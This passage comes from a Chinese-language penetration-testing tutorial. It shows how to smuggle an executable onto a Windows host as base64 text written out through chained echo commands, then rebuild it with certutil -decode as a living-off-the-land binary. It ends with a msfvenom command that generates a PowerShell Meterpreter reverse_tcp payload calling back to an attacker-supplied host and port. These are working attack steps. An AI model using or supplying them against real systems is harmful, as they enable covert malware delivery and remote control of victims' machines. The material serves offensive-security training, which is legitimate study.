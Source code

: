 和 A 列一样，在 E 列第一行，快速填充 `&& echo`。注意开头和末尾各有一个空格。

F 列直接把 D 行数字复制过来即可。

最后 G 列快速填充 `>> FileEchoStatus`，就可以了。注意开头有一个空格。

![Excel 数据处理后的结果.png](assets/1708583756-e0973e38379574c72870994f4783b170.png)

将表格另存为 txt，把第一行追加重定向，改成覆盖，防止文件已经存在导致数据错乱这种低级问题。

最后使用 Windows 自带笔记本将其中的 Tab 制表符给删除（VSCode 不知道为啥把空格也识别成 Tab），防止在命令行中粘贴自动把 Tab 识别成选中文件，至少在 Windows 命令提示符中粘贴输入是这样。

```plaintext
echo    TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA     >> record && echo  2
```

![替换制表符.png](assets/1708583756-0a64d04ef8804b9998b76a195c75cdaf.png)

所有命令执行完成后，没有任何传输失败的情况，再把还原成应用。这里是将 record 成功还原回 1.exe。

```plaintext
E:\Desktop>Certutil -decode record 1.exe
输入长度 = 396412
输出长度 = 288256
CertUtil: -decode 命令成功完成。
```

像是这种思路也很常见，比如把文件做一些编码，尽可能让编码后的数据短些，后面在通过系统自带的工具进行解码，这种利用正常的自带的工具也叫 [LOLBin](https://lolbas-project.github.io/)。

#### 2.1.6 Powershell

1.生成 PowerShell 脚本上线。

生成 ps1 脚本指定反连接地址和端口。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f psf-reflection -o attack.ps1
```
